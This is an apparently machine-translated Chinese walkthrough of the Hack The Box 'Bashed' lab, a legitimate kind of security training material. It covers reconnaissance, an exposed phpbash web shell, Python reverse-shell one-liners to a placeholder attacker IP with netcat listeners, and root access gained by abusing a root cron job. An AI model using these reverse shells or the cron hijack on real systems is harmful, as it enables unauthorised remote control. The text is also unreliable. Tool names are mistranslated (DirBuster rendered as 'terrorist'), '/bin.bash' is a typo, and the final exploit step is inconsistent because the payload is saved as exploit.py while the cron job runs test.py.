# 保持冷静，黑掉被砸的盒子

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-bashed/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。

它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

********************************注****************:****************



Bashed 是一个简单的机器，专注于模糊和定位重要文件。Linux 和 cron 工作的基本知识是必要的。

我们将使用以下工具将机器典当到一个 [Kali Linux 机器](https://www.kali.org/)上:

*   nmap
*   恐怖分子
*   nikto
*   网猫

我们开始吧！

## ******************************第一步——侦察******************************

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

### **************端口扫描**************

我会用********************************Nmap********************************(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。

它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来执行密集扫描:

```
nmap -A -v 10.129.90.251
```

********************************-A:********************************启用操作系统检测、版本检测、脚本扫描和跟踪路由

********************************-v:********************************增加赘言级别

**10 . 129 . 90 . 251******************************:********************************被砸箱子的 IP 地址

如果你觉得这个结果有点令人难以置信，你可以试试这个:

```
nmap 10.129.90.251
```



我们可以看到有一个开放的端口:

********************************端口****************80****************，最常用的是超文本传输协议(HTTP)。

### **目录扫描**

还在扫描和侦察阶段，我现在用**。DirBuster 是一个多线程的 Java 应用程序，旨在暴力破解 web/应用服务器上的目录和文件名。**

您可以通过在终端上键入以下命令来启动 DirBuster:

```
dirbuster
```

应用程序如下所示，您可以在其中指定目标 URL。在我们的例子中，它将是 **http://10.129.90.251** 。点击浏览按钮，可以选择一个带有 ****目录/文件**** 列表的单词列表:



我用 ********目录-列表-2.3-medium.txt******** 进行这个搜索。我们可以在这里看到很多文件:



我可以看到一些有趣的目录来检查(/uploads，/dev，/php)。

然后我用 ****Nikto**** 。

> Nikto 是一个开放源代码的 web 服务器扫描器，它对 web 服务器执行多项全面测试，检查 1250 多个服务器的过期版本，以及 270 多个服务器上的版本特定问题。
> 
> 它还检查服务器配置项目，如是否存在多个索引文件、HTTP 服务器选项，并将尝试识别已安装的 web 服务器和软件。

你可以在这里找到关于工具[的更多信息。](https://tools.kali.org/information-gathering/nikto)



我使用这个命令启动扫描

```
nikto -host 10.129.90.251
```



我可以看到几个有趣的目录(/dev，/php)。

## **步骤 2 -访问网页**

让我们访问从侦察阶段找到的页面，从主网页开始。好像是关于发展的博客。



我点击了 **phpbash** 的文章。该页面解释了它是什么，并提供了一个到 GitHub 库的链接。



我检查了 GitHub 库。



[https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)

然后我导航到 **/dev** 文件夹。好像是开发者在网站上上传了他们的代码。



我点击**phpbash.php**，在浏览器中打开一个外壳

```
http://10.129.90.251/dev/phpbash.php
```



## **************步************3************-************寻找用户. txt 标志**

我可以使用以下命令列出所有文件/文件夹:

```
ls -la
```

我接着把 ****************首页****************文件夹**用:**

```
cd home
```



我找到了 **arrexel** 的**T3 的文件夹。**



我导航到这个文件夹，我找到了用户标志！我用以下命令检查文件的内容:

```
cat user.txt
```



我需要一个合适的外壳来提升权限。在 **phpbash** 窗口中，我运行以下命令:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

我在端口 ****1234**** 上设置了一个 ****Netcat**** 监听器来捕获反向 shell 连接。

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是对古老的 [Netcat](http://sectools.org/tool/netcat/) 的一个改进。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接。

你可以在这里了解更多关于 Netcat [的信息。](https://nmap.org/book/ncat-man.html)

```
nc -nvlp 1234
```



我有一个贝壳，看看我和谁在一起

```
whoami
```

那就跑

```
sudo -l
```

了解我可以在 localhost 上运行哪个命令。



让我们转到 **scriptmanager** 来检查这个用户是否可以访问 www-data 无法访问的文件夹。但是首先我用命令生成一个合适的 shell

```
python -c 'import pty; pty.spawn("/bin.bash");'
```


然后，我使用命令切换到用户 **scriptmanager**

```
sudo -u scriptmanager /bin/bash
```



然后我导航到 **/scripts** 文件夹，看到两个文件( **test.py** 和 **test.txt** )。



**test.txt** 文件归 root 所有，似乎是 scriptmanager 拥有的 **test.py** 脚本的结果。

我用检查 **test.py** 的内容

```
cat test.py
```



与 **test.txt 的内容**同

```
cat test.txt
```



我再次列出所有文件，发现 **test.tx** t 的时间已经改变。我们可以假设有一个 cron 作业正在运行来自 **/scripts** 文件夹的 **test.py** 脚本。



让我们写一个漏洞利用

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_MACHINE_IP",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
```

并保存为 **exploit.py** 。

我用删除了 **test.py** 文件

```
rm test.py
```



我在端口 **1235** 上设置了另一个 ****Netcat**** 监听器来捕获反向 shell 连接。



我现在是 root 了！

我列出了 cron 作业列表来验证我的假设

```
crontab -l
```



cron 作业执行 **/scripts** 文件夹中的 Python 文件。

## **********************************************-**********************************************

现在让我们找到根旗。我导航到 ********根**** 。****

我找到 root.txt 文件，并用

```
cat root.txt
```

